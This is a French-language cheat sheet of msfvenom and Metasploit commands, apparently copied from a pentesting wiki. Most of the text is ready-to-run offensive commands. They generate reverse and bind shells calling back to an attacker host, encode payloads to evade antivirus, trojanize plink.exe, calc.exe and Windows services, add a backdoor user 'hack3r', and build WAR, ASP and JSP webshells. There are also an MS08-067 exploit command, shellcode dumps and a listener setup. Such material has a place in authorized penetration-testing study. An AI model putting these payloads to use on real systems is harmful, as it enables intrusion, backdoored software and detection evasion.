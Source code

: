=========
MSFVENOM
=========

**Source** : https://pentestwiki.org/msfvenom-payloads-cheat-sheet/

Msfvenom Payloads
=================

General commands
----------------

Liste complète des payloads **msfvenom** pour `Metasploit`_

.. _Metasploit: https://www.metasploit.com/

Répertoriez tous les types de payloads (environ 562 types) :

``msfvenom -l payloads``

Afficher uniquement les payloads Windows x64 :

``msfvenom -l payloads --platform windows --arch x64``

Affiche les formats de sortie (asp, exe, php, powershell, js_le, csharp,...) :

``msfvenom --list formats``

Différence entre les payloads staged et non-staged
==================================================

Dans **msfvenom**, nous pouvons choisir entre des payloads **staged** et **non staged**, mais quelle est la différence ?

Les payloads **non staged** sont des payloads autonomes, ce qui signifie que tout le payload est envoyé en même temps à la cible. 

.. important:: Moins de communications, cette charge est donc préférable pour éviter les détections.

Les payloads **staged** sont envoyés en deux étapes : 

La première charge au compte-gouttes et la deuxième étape charge le payload.

1. Si le débordement de la mémoire tampon est trop petit pour contenir un payload non staged, le diviser en deux aidera.

2. Étant en plusieurs parties, il est plus facilement détectable par l'antivirus de l'hôte.

Génération de payloads avec Msfvenom
====================================

Binary payloads
---------------

Générez du code en C pour une cible Windows avec un reverse shell TCP se connectant à l'hôte $LOCALIP:443 (payload non staged) :

``msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -f c``

Générez du code en C pour une cible Windows avec un reverse shell TCP se connectant à l'hôte $LOCALIP:443 (payload staged) :

``msfvenom -p windows/shell/reverse_tcp LHOST=$LOCALIP LPORT=443 -f c``

Générez du code en C pour le reverse shell TCP sur l'hôte $LOCALIP:443 en obscurcissant la payload et en évitant les caractères défectueux ``\x00\x0a\x0d`` dans le shellcode :

.. code-block:: bash

  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

Générez du code en C pour le reverse shell afin d'y héberger $LOCALIP:443 (TCP) en obscurcissant la payload et en évitant les caractères défectueux ``\x00\x0a\x0d`` dans le shellcode et en générant le shellcode dans une menace différente pour ne pas bloquer le processus principal :

.. code-block:: bash

  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

Générez du code en C pour un **bindshell** sur une cible Linux port TCP/4444 en évitant les caractères défectueux ``\x00\x0a\0d\x20`` et en obscurcissant le shellcode :

.. code-block:: bash

  msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

Générez un payload en JavaScript pour exécuter un reverse shell staged sur $LOCALIP hôtes port 443 :

.. code-block:: bash

  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -f js_le -e generic/none

Générez un fichier Windows EXE avec un shellcode exécutant un reverse shell sur $LOCALIP hôtes port TCP (4444). La sortie sera écrite dans le fichier **shell_reverse.exe** :

.. code-block:: bash

  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=4444 -f exe -o shell_reverse.exe

Générez un fichier Windows EXE avec un shellcode exécutant un reverse shell sur $LOCALIP hôtes port TCP (4444). La sortie sera écrite dans **reverse_shell_msf_encoded.exe** et Obscurcissez le shellcode en effectuant **9 tours** d'obscurcissement.

.. code-block:: bash

  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

Trojanize file plink.exe pour exécuter un reverse shell sur l'hôte $LOCALIP:4444 (TCP) en utilisant 9 tours d'obscurcissement et en écrivant le fichier EXE de sortie dans le fichier **shell_reverse_msf_encoded_embedded.exe** :

.. code-block:: bash

  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

Générez un fichier EXE appelé **met_https_reverse.exe** pour exécuter un reverse shell via HTTPS (443) sur l'hôte $LOCALIP pour vous connecter à une session meterpreter d'écoute :

.. code-block:: bash

  msfvenom -p windows/meterpreter/reverse_https LHOST=$LOCALIP LPORT=443 -f exe -o met_https_reverse.exe
  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=4444 -f exe -o shell_reverse.exe
  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
  msfvenom -p windows/meterpreter/reverse_http LHOST=$LOCALIP LPORT=80 -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o /var/www/daaa118.exe

Trojanize calc.exe pour exécuter un reverse shell meterpreter sur l'hôte $LOCALIP enregistré dans le fichier calc_2.exe :

.. code-block:: bash

  msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LOCALIP -f exe -k -x calc.exe -o calc_2.exe

Staged ELF shared library (.so) payload avec reverse shell :

.. code-block:: bash
  
  msfvenom -p linux/x86/shell/reverse_tcp LHOST=$LOCALIP LPORT=443 -o staged.out -f elf-so

Non-staged ELF shared library (.so) payload avec reverse shell :

.. code-block:: bash
  
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -o non-staged.out -f elf-so

Générez un fichier meterpreter.exe en *inventant* un reverse shell sur l'hôte $LOCALIP port TCP/443 :

.. code-block:: bash
  
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LOCALIP LPORT=443 -f exe -o meterpreter.exe

.. attention:: Lors de l'utilisation du paramètre -x, l'exécutable ne doit pas être compressé avec UPX

.. code-block:: bash

  msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LOCALIP LPORT=443 -f exe -x /usr/share/windows-binaries/plink.exe -e x86/shikata_ga_nai -o plink-meterpreter.exe

Exploitez MS08-067 (vulnérabilité NetAPI) sur l'hôte $IP et exécutez un bindshell après l'exploitation :

.. code-block:: bash

  msfcli windows/smb/ms08_067_netapi RHOST=$IP PAYLOAD=windows/shell/bind_tcp E

Générez un payload python pour exécuter calc.exe en omettant les caractères ``\x00`` (octet NULL) :

``msfvenom -p windows/exec CMD=calc.exe -b "x00" -f py``

Créer un fichier account.exe avec 20 tours d'obscurcissement contenant un payload qui créera l'utilisateur hack3r avec le mot de passe s3cret^s3cret :

.. code-block:: bash

  msfvenom -p windows/adduser -f exe -o account.exe USER=hack3r PASS=s3cret^s3cret -e x86/shikata_ga_nai -i 20

Trojanized DLL calc.dll pour exécuter calc.exe :

``msfvenom -p windows/exec CMD=calc.exe -f dll -o calc.dll``

Trojanize Windows Service avec 20 tours d'obscurcissement pour créer un nouvel utilisateur hack3r avec le mot de passe s3cret^s3cret :

.. code-block:: bash

  msfvenom -p windows/exec CMD=calc.exe -f exe-service
  msfvenom -p windows/adduser -f exe-service -o service.exe USER=hack3r PASS=s3cret^s3cret -e x86/shikata_ga_nai -i 20

Obtenir le code assembleur de shellcode :

``msfvenom -p linux/x86/exec cmd=whoami R | ndisasm -u -``

.. code-block:: bash

  Payload size: 42 bytes
  
  00000000  6A0B              push byte +0xb
  00000002  58                pop eax
  00000003  99                cdq
  00000004  52                push edx
  00000005  66682D63          push word 0x632d
  00000009  89E7              mov edi,esp
  0000000B  682F736800        push dword 0x68732f
  00000010  682F62696E        push dword 0x6e69622f
  00000015  89E3              mov ebx,esp
  00000017  52                push edx
  00000018  E807000000        call 0x24
  0000001D  7768              ja 0x87
  0000001F  6F                outsd
  00000020  61                popa
  00000021  6D                insd
  00000022  6900575389E1      imul eax,[eax],dword 0xe1895357
  00000028  CD80              int 0x80
  
Obtenez un assembleur dans un format convivial à intégrer dans un exploit python / perl :

``msfvenom -p linux/x86/exec cmd=whoami R | hexdump -v -e '"\\\x" 1/1 "%02x"'``

.. code-block:: bash

  Payload size: 42 bytes
  
  \x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00
  \x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x07\x00\x00\x00\x77\x68\x6f
  \x61\x6d\x69\x00\x57\x53\x89\xe1\xcd\x80

Webshells generation avec Msfvenom
----------------------------------

Tomcat webshell avec un meterpreter reverse shell :

``msfvenom -p java/meterpreter/reverse_tcp -f war -o tomcatapp.war LHOST=$LOCALIP``

Webshell Tomcat avec un revershell autonome avec $LOCALIP hôtes sur le port 442 :

``msfvenom -p java/shell_reverse_tcp -f war -o tomcatapp2.war LHOST=$LOCALIP LPORT=442``

ASP webshell sur Windows :

.. code-block:: bash
  
  msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -f asp -o webshell_reverse_msfvenom.txt

JSP webshell sur Linux :

.. code-block:: bash

  msfvenom -p linux/x86/shell/reverse_tcp LHOST=$LOCALIP LPORT=443 -o test.jsp -f jsp

.. important:: **-v payload** : spécifie le nom du payload !! Très utile lors du remplacement de payloads existantes dans des exploits existants

Utilisez Metasploit pour une connexion reverse shell
====================================================

.. code-block:: bash

  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LPORT 443
  set LHOST $LOCALIP
  exploit

Plus d'infos :

- https://www.offensive-security.com/metasploit-unleashed/msfvenom/
- **MSFVenom payload generator** : https://pentestwiki.org/tools/msfvenom-payload-generator.php (alpha version)